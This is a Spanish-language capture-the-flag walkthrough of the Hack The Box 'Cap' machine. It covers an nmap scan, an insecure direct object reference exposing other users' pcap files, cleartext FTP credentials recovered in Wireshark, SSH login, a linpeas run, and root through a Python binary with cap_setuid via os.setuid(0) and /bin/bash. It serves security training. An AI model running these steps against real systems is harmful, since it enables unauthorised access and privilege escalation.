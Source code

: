---------
- Tags: #ftp #ssh #pcap #wireshark #linpeas
---------------

![](../img/f1560106c70cb8c5fa2875a330ac9ec6.png)

## 🔢 Datos de la máquina

- **Nombre**: Cap
    
- **IP**: `10.10.10.245`
    
- **Sistema Operativo**: Linux
    
- **Dificultad**: Easy
    
- **Modo**: Guided Mode


## 🔍 Enumeración inicial

Nos preguntan, cuantos puertos TCP están abiertos:

![](../img/9746611fb6f2a4137635edd9acd0bceb.png)

```bash
nmap -sS -sC --top-ports 1000 -Pn (IP)
```

📘 **Parámetros explicados**:

- `-sS`: TCP SYN Scan (modo sigiloso, rápido y eficaz)
    
- `-sC`: Usa los scripts por defecto de Nmap (equivale a `--script=default`)
    
- `--top-ports 1000`: Escanea los 1000 puertos más comunes
    
- `-Pn`: Omite detección de host (asume que el host está vivo)
    

🧠 Este escaneo es ideal para una enumeración inicial rápida en pruebas de penetración.


![](../img/e1ce67e4e8fcae16a6cf1eefc1109b4f.png)

📥 **Resultado**:

```bash
- 21/tcp - FTP
    
- 22/tcp - SSH
    
- 80/tcp - HTTP
```

🎯 Además, el puerto 80 presenta el título `Security _Dashboard_`, indicando un servicio web.


## 🔗 Servicio web (HTTP)

Navegamos a `http://10.10.10.245` y encontramos un **panel llamado Security Dashboard**. En el menú lateral aparece:

- Security Snapshot
    
- IP Config
    
- Network Status

![](../img/b4579a0b735909f7cf2c2d46dc68f70d.png)


![](../img/7a04d5cbaa28fb65e5fe29fe725b98c2.png)

Tras clicar a: "*security snapshot"* , el navegador nos redirige a:

```bash
/data/<id>
```

✅ Respuesta: `data`


## 🤔 Acceso a escaneos de otros usuarios

Desde `/data/0`, pudimos acceder a datos de otros usuarios.

![](../img/357531be73570dac9a50740636e7b0ae.png)

✅ **Task 3**: ¿Se puede acceder a otros escaneos? → Respuesta: `yes`


## 📃 Descarga y análisis del PCAP

Desde la URL `/data/0` descargamos unos cuantos `.pcap`. Los abrimos con **Wireshark**:



![](../img/b74ec2f7a635f2f7726788816926773a.png)

🔎 Filtros aplicados:

```bash
ftp
```

📂 Observamos tráfico FTP sin cifrar, donde se muestran:

- Usuario: `nathan`
    
- Contraseña: `Buck3tH4TF0RM!`

![](../img/1b71df30bc23f6d6c454eb0aa75c0a81.png)

![](../img/1fed521c6344e447ad2ae127b0e46241.png)

## 🛡️ Acceso por servicios

🔌 Probamos FTP:

![](../img/83fbb90879b6d1f71e26774304e1af22.png)

Login: `nathan` / `Buck3tH4TF0RM!` ❌ Acceso fallido (servidor FTP deniega sesión)

🔐 Probamos SSH:

![](../img/9885ab83605d6837406d7198e9c9fd21.png)

🚀 **¡Conexión exitosa!**

✅ **Task 6**: ¿Dónde funciona también la pass? → Respuesta: `ssh`

## 📂 Flag de usuario

Una vez dentro como `nathan`:

📦 Contenido:

![](../img/2c1a15328f586e251be4990b55e0ecf0.png)

🏆 Flag enviada con éxito.

## 🛡️ Escalada de privilegios

### 🪤 Usamos `linpeas`

Leyendo el tutorial:

![](../img/4d8527b6c42fd6cc5c59c832ed76f0c1.png)

Descargaremos el *linpeas.sh* y lo dejaremos en la carpeta "home"

```bash
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
```


Subimos `linpeas.sh` y lo ejecutamos:

```bash
./linpeas.sh
```


![](../img/ded52dfd62391bacd2f0e10396a52383.png)

![](../img/a547dc39684bf9bbc1130edaa8b61aed.png)

Leyendo el tutorial:

![](../img/1c035723e28aba9a9c3fe9922351ef15-1.png)

![](../img/d9e8fd46bf64701243f22802d4a937c3.png)

Buscamos binarios con **capabilities** especiales:

```bash
getcap -r / 2>/dev/null
```

Resultado:

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Esto es clave: `cap_setuid` permite ejecutar como UID 0 (root) sin necesidad del bit SUID.

📚 Referencia:

```bash
import os
os.setuid(0)
os.system("/bin/bash")
```

Y al ejecutarlo en `/usr/bin/python3.8`, conseguimos shell como root:

![](../img/1b01d422aca0316bd652ae33629ec7cb.png)

📡 Prompt cambia a `root@cap:~#`

✅ **Task 8**: Full path al binario vulnerable: `/usr/bin/python3.8`

## 🌟 Flag de root

Una vez como root , buscaremos la carpeta de root para encontrar la flag.

![](../img/64fb8eb9a4fa004202e3f766ac467d6f.png)

🏆 Flag root conseguida con éxito.

## 🌟 Conclusión

- Enumeración web ✅
    
- Análisis de PCAP con Wireshark ✅
    
- Credenciales encontradas ✅
    
- Acceso por SSH como `nathan` ✅
    
- Obtenida flag de usuario ✅
    
- Escalada a root via capabilities con Python ✅
    
- Obtenida flag de root ✅
    

🔹 Excelente ejercicio para entender:

- Lectura de PCAPs
    
- Credenciales en texto claro
    
- Enumeración de capabilities
    
- Uso de Python para obtener root